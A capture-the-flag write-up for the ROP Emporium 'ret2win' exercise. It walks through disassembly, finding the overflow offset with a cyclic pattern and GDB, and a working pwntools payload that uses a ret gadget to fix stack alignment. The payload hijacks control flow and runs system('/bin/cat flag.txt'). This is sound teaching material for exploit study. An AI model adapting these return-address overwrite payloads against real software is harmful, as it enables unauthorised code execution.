




source: [ret2win](https://ropemporium.com/challenge/ret2win.html)
# Overview

ret2win is a basic buffer overflow challenge. The objective is to overwrite the saved return address and redirect execution to an otherwise unreachable function.

The attack chain was:
```text
inspect the binary using objdump
 ↓
draw the stack diagram to visualize the stack frame
 ↓
calculate the offset using a cyclic pattern
 ↓
verify the offset using GDB
 ↓
exploit the buffer overflow using pwntools
```

---
# 0. Normal Program Execution

To establish a baseline of how the program behaves, I run:
```bash
./ret2win
```

The program prints some messages, prompts for input, and then prints another message:


---
# 1. Inspecting The Binary File

I ran:
```bash
objdump -d -M intel ./ret2win
```

The interesting functions were:
```text
0000000000400697 <main>:
  400697:       55                      push   rbp
  400698:       48 89 e5                mov    rbp,rsp
  40069b:       48 8b 05 b6 09 20 00    mov    rax,QWORD PTR [rip+0x2009b6]        # 601058 <stdout@GLIBC_2.2.5>
  4006a2:       b9 00 00 00 00          mov    ecx,0x0
  4006a7:       ba 02 00 00 00          mov    edx,0x2
  4006ac:       be 00 00 00 00          mov    esi,0x0
  4006b1:       48 89 c7                mov    rdi,rax
  4006b4:       e8 e7 fe ff ff          call   4005a0 <setvbuf@plt>
  4006b9:       bf 08 08 40 00          mov    edi,0x400808
  4006be:       e8 8d fe ff ff          call   400550 <puts@plt>
  4006c3:       bf 20 08 40 00          mov    edi,0x400820
  4006c8:       e8 83 fe ff ff          call   400550 <puts@plt>
  4006cd:       b8 00 00 00 00          mov    eax,0x0
  4006d2:       e8 11 00 00 00          call   4006e8 <pwnme>
  4006d7:       bf 28 08 40 00          mov    edi,0x400828
  4006dc:       e8 6f fe ff ff          call   400550 <puts@plt>
  4006e1:       b8 00 00 00 00          mov    eax,0x0
  4006e6:       5d                      pop    rbp
  4006e7:       c3                      ret

00000000004006e8 <pwnme>:
  4006e8:       55                      push   rbp
  4006e9:       48 89 e5                mov    rbp,rsp
  4006ec:       48 83 ec 20             sub    rsp,0x20
  4006f0:       48 8d 45 e0             lea    rax,[rbp-0x20]
  4006f4:       ba 20 00 00 00          mov    edx,0x20
  4006f9:       be 00 00 00 00          mov    esi,0x0
  4006fe:       48 89 c7                mov    rdi,rax
  400701:       e8 7a fe ff ff          call   400580 <memset@plt>
  400706:       bf 38 08 40 00          mov    edi,0x400838
  40070b:       e8 40 fe ff ff          call   400550 <puts@plt>
  400710:       bf 98 08 40 00          mov    edi,0x400898
  400715:       e8 36 fe ff ff          call   400550 <puts@plt>
  40071a:       bf b8 08 40 00          mov    edi,0x4008b8
  40071f:       e8 2c fe ff ff          call   400550 <puts@plt>
  400724:       bf 18 09 40 00          mov    edi,0x400918
  400729:       b8 00 00 00 00          mov    eax,0x0
  40072e:       e8 3d fe ff ff          call   400570 <printf@plt>
  400733:       48 8d 45 e0             lea    rax,[rbp-0x20]
  400737:       ba 38 00 00 00          mov    edx,0x38
  40073c:       48 89 c6                mov    rsi,rax
  40073f:       bf 00 00 00 00          mov    edi,0x0
  400744:       e8 47 fe ff ff          call   400590 <read@plt>
  400749:       bf 1b 09 40 00          mov    edi,0x40091b
  40074e:       e8 fd fd ff ff          call   400550 <puts@plt>
  400753:       90                      nop
  400754:       c9                      leave
  400755:       c3                      ret

0000000000400756 <ret2win>:
  400756:       55                      push   rbp
  400757:       48 89 e5                mov    rbp,rsp
  40075a:       bf 26 09 40 00          mov    edi,0x400926
  40075f:       e8 ec fd ff ff          call   400550 <puts@plt>
  400764:       bf 43 09 40 00          mov    edi,0x400943
  400769:       e8 f2 fd ff ff          call   400560 <system@plt>
  40076e:       90                      nop
  40076f:       5d                      pop    rbp
  400770:       c3                      ret
  400771:       66 2e 0f 1f 84 00 00    cs nop WORD PTR [rax+rax*1+0x0]
  400778:       00 00 00 
  40077b:       0f 1f 44 00 00          nop    DWORD PTR [rax+rax*1+0x0]
```

From this, I noticed:
1. Address `0x4006d2`: `main` calls the `pwnme` function.
2. Address `0x4006ec`: `pwnme` establishes its stack frame.
3. Address `0x4006ec`: `sub rsp, 0x20` reserves 32 bytes of stack space for the local buffer.
4. Address `0x400737`: `mov edx, 0x38` sets the maximum number of bytes `read()` will read to 56 bytes.

This reveals that `read()` can write 56 bytes into a 32-byte buffer, making a buffer overflow possible.

---
# 2. Drawing `pwnme`'s stack frame

To visualise the stack frame, I draw:
```text
Higher addresses
+-----------------------------+
| Return address   8 bytes    | [rbp+0x8]
+-----------------------------+
| Saved RBP        8 bytes    | [rbp]
+-----------------------------+
|                             |
| Local stack space           | 
| Buffer   32 bytes           |
|                             | [rbp-0x20]
+-----------------------------+
Lower addresses
```

---
# 3. Ensuring the offset is correct

Run:
```bash
pwn cyclic -n 4 64 > pattern
```
This generates a 64 byte cyclic pattern containing unique 4-byte subsequences.

The pattern helps identify the exact number of bytes needed to reach and overwrite the saved return address.

---
# 4. Verifying the Offset Using GDB

Run:
```bash
gdb -q -nx -batch -ex 'run < pattern' -ex 'x/i $rip' -ex 'info registers rip rsp rbp' -ex 'x/gx $rsp' ./ret2win
```

Output:


- `RIP`: Points to the `ret` instruction at the end of `pwnme`.
- `RSP`: Points to the top of the stack, where the return address is stored.
- `RBP`: Has been overwritten by part of the cyclic pattern, so it no longer holds the original stack-frame base address.
- `x/gx $rsp`: Displays the 8-byte value at the top of the stack.

The value at `RSP` is `0x6161616c6161616b`, which contains bytes from the cyclic pattern. This confirms that the saved return address has been overwritten.

I can use the cyclic pattern to calculate the exact offset:
```bash
pwn cyclic -n 4 -l <value>
```
The resulting offset is **40 bytes**.

---
# 5. Overflowing the Buffer

I generate a payload to overflow the buffer. I add 40 bytes of padding, followed by the address of `ret2win` to redirect execution instead of returning to `main`.

Payload:
```bash
python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*40 + p64(0x400756))' | ./ret2win
```
- `b"A"*40`: Writes 40 bytes of padding, filling the 32-byte buffer and overwriting the 8-byte saved RBP.
- `p64(0x400756)`: Encodes the address of `ret2win` as an 8-byte little-endian value, overwriting the saved return address.

Result:

Execution successfully reaches `ret2win`, but the flag isn't printed.

Observing the disassembly of `ret2win`, I notice:
```text
  400764:       bf 43 09 40 00          mov    edi,0x400943
  400769:       e8 f2 fd ff ff          call   400560 <system@plt>
```
- Address `0x400764`: Moves `0x400943` into `EDI`, which holds the first function argument.
- Address `0x400769`: Calls `system()`.

I want to investigate why the flag isn't being printed when `ret2win` executes.

---
# 6. Debugging

I run GDB to investigate the problem:
```bash
gdb ./ret2win
```

### 1. Inspect memory contents at 0x400943


- `x/s 0x400943`: Examines memory at the specified address and interprets it as a null-terminated string. It reveals `/bin/cat flag.txt`.
- This confirms that `ret2win` passes `/bin/cat flag.txt` to `system()`.

### 2. Add a breakpoint at the end of pwnme

Create a payload containing the buffer overflow data:
```bash
python3 -c 'from pwn import *; import sys; sys.stdout.buffer.write(b"A"*40 + p64(0x400756))' > payload
```

Add a breakpoint in GDB:
```gdb
break *0x400755
run < payload
```
- `break *0x400755`: Sets a breakpoint at the `ret` instruction at the end of `pwnme`.
- `run < payload`: Runs the binary and redirects the contents of `payload` to its standard input.

### 3. Inspect the return address and execution flow

```gdb
x/gx $rsp
```
- `x/gx $rsp`: Examines the 8-byte value at the top of the stack.
- Output shows `0x400756`, confirming that the saved return address was overwritten with the address of `ret2win`.


Execute the return instruction:
```gdb
ni
```
- `ni` (next instruction): Executes the current instruction without stepping into called functions.
- Execution transfers to `0x400756`, the beginning of `ret2win`, confirming successful control-flow hijacking.

Inspect the call stack:
```gdb
bt
```
- `bt`: Displays the backtrace, showing the current function and its recoverable callers.
- The backtrace may not show the original `pwnme` and `main` frames correctly because the saved return address was overwritten, disrupting the normal call chain.

Continue execution:
```gdb
continue
```
- Resumes program execution.
- The program reaches `ret2win`, but crashes inside libc before printing the flag.

### 4. Investigate the segmentation fault

Inspect the crashing instruction:
```gdb
x/i $rip
```
- `x/i`: Examines memory at `$rip` and disassembles it as an instruction.
- Output: `movaps %xmm1,(%rsp)`.

Inspect stack alignment:
```gdb
p/x $rsp
```
- `p/x`: Prints an expression in hexadecimal.
- Output: `0x7fffffffd8f8`.
- The last hexadecimal digit is `8`, meaning `RSP % 16 = 8`.
- `movaps` requires its memory destination to be 16-byte aligned. Since `%rsp` is not aligned to 16 bytes, the instruction causes a segmentation fault.


### 5. Fix the alignment

The additional `ret` gadget shifts RSP by 8 bytes, correcting the stack alignment before entering `ret2win`.

Find a standalone `ret` gadget:
```bash
ROPgadget --binary ./ret2win | grep ": ret"
```

Output:
```text
0x000000000040053e : ret
```



Update the payload:
```python
b"A"*40 + p64(0x40053e) + p64(0x400756)
```

The payload now contains:
- `40` bytes of padding to reach the saved return address.
- `0x40053e`: A standalone `ret` gadget that adjusts stack alignment by 8 bytes.
- `0x400756`: The address of `ret2win`.

1. When the function executes its first `ret`, it pops `0x40053e` (the address of the standalone `ret` gadget) from the stack into `RIP`. This advances `RSP` by 8 bytes.
2. Execution then reaches the standalone `ret` gadget, which executes another `ret` instruction. It pops `0x400756` (the address of `ret2win`) into `RIP`, advancing `RSP` by another 8 bytes.
3. This additional 8-byte shift changes the stack alignment, ensuring that `ret2win` calls `system()` with the correct alignment.

---
# 7. Flag



The exploit successfully redirects execution to `ret2win`, executes `system("/bin/cat flag.txt")`, and prints the flag.

---
# 8. Key Takeaways

- **Stack frame layout:** Understanding the relationship between the local buffer, saved RBP, and return address is essential when calculating overflow offsets.
- **Cyclic patterns:** Useful for identifying the exact offset needed to overwrite the saved return address.
- **Return address overwrite:** Controlling the saved return address allows execution to be redirected to existing functions.
- **Calling conventions:** Stack alignment matters when calling functions, especially when interacting with libc.
- **ROP gadgets:** Even a single `ret` instruction can be useful to adjust stack alignment without executing additional functionality.
- **Debugging with GDB:** Inspecting registers, stack contents, instructions, and the backtrace helps identify where and why an exploit fails.